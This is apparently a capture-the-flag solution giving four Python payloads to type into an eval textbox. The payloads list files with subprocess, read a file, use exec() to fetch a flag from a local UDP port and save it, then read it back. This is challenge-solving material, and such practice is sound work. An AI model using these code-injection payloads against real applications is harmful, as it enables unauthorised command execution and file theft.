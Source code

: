 # Solution

Type this in eval textbox:

* __import__("subprocess").check_output(["ls"])  # find "interesting" file

* open("very_long_and_complex_file_name").read()  # read "interesting" file

* exec("""import socket as s;p=s.socket(s.AF_INET, s.SOCK_DGRAM);p.setsockopt(s.SOL_SOCKET, s.SO_REUSEADDR, 1);p.bind(("localhost", 0));p.sendto(b"", ("localhost", 31337));f=open("file_name", "wb");f.write((p.recvfrom(1024))[0]);f.close()""")  # write flag to "file_name"

* open("file_name").read()  # read flag from "file_name"
